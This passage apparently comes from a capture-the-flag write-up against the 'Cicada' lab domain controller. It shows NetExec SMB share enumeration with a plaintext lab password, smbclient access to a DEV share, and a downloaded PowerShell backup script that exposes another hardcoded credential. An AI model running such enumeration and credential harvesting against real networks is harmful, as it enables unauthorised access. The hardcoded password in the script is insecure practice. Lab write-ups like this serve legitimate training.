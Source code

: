 This user has access to `SMB` , `LDAP` , `RPC` , lets enumerate more:

## SMB enumeration as david.orelious

```bash
nxc smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

hm this user can read the `DEV` share which we previously could not read:

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.180.83   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.83   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.83   445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.83   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.83   445    CICADA-DC        C$                              Default share
SMB         10.129.180.83   445    CICADA-DC        DEV             READ            
SMB         10.129.180.83   445    CICADA-DC        HR              READ            
SMB         10.129.180.83   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.83   445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.180.83   445    CICADA-DC        SYSVOL          READ            Logon server share
```

Lets navigate to the `DEV` share via smvclient:

```bash
smbclient -U david.orelious //cicada.htb/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
```

it has a powershell script inside, lets download and inspect it

```bash
smb: \> ls
  .                                   D        0  Thu Mar 14 07:31:39 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 12:28:22 2024

		4168447 blocks of size 4096. 476884 blocks available
smb: \> get "Backup_script.ps1"
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
```

`Backup_script.ps1`:

```bash
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```
